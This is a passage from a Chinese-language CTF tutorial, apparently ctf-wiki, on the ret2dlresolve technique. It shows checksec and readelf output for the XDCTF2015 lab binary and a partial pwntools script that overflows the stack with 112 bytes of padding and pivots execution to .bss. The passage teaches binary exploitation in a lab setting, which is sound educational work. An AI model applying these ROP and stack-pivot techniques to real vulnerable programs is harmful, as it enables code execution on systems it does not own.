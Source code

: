 效果如下，仍然输出了cmd对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage2.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 123406
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 3

这一次，我们同样控制dl_resolve函数中的index_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

```shell
➜  ret2dlresolve git:(master) ✗ readelf -r main

重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
 偏移量     信息    类型              符号值      符号名称
08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
 偏移量     信息    类型              符号值      符号名称
0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

可以看出write的重定表项的r_offset=0x0804a01c，r_info=0x00000607。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
```